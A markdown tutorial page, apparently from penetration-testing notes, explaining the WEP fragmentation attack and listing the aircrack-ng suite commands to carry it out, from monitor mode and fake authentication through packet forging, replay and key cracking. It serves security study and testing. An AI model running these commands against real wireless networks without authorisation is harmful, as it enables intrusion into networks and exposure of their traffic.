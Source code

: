 # Fragmentation (WEP)

This attack, when successful, can obtain 1500 bytes of PRGA (pseudo random generation algorithm). This attack does not recover the WEP key itself, but merely obtains the PRGA. The PRGA can then be used to generate packets with packetforge-ng which are in turn used for various injection attacks. It requires at least one data packet to be received from the access point in order to initiate the attack.

Basically, the program obtains a small amount of keying material from the packet then attempts to send ARP and/or LLC packets with known content to the access point (AP). If the packet is successfully echoed back by the AP then a larger amount of keying information can be obtained from the returned packet. This cycle is repeated several times until 1500 bytes of PRGA are obtained or sometimes less then 1500 bytes.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed, so `screen` is your friend
* At least one client must be associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $DEVICE $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack against AP
sudo aireplay-ng --fakeauth 7 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# Run the fragment attack against AP
sudo aireplay-ng --fragment -b $BSSID -h $INTERFACEMAC $INTERFACE

# Create an ARP request packet
packetforge-ng -0 -a $BSSID  -h  $INTERFACEMAC -l <Source_IP> -k <Dest_IP> -y <XOR_file> -w $OUTPUT

# Check the contents
tcpdump -n -vvv -e -s0 -r $OUTPUT

# Run the interactive attack to jack up IVs
aireplay-ng --interactive -r $OUTPUT $INTERFACE

# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
aircrack-ng $PCAP
```

## References

* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Fragmentation](https://www.aircrack-ng.org/doku.php?id=fragmentation)
* [REdBlueTeam]()

